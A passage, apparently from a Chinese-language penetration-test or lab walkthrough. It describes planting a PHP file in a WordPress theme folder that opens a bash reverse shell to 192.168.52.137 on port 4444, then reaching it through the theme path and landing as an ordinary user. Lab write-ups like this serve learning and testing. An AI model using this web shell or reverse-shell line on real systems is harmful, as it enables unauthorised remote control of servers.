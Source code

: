 修改成功(接下来就是如何访问到这个secret.php文件即可)

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.52.137/4444 0>&1'"); ?>
```

这里需要了解一下wordpress模板的知识

```
/wordpress/wp-content/themes/twentynineteen/secret.php
themes往前面的路径是wordpress主题的固定路径，倒数第二个后面的是使用的主题的名字，最后一个是文件名
```

当前是twentynineteen主题

![image-20231007165232971](..\img\final\image-20231007165232971.png)

点击方法就触发了反弹shell 

![image-20231007165327773](..\img\final\image-20231007165327773.png)

whoami发现是一个普通用户
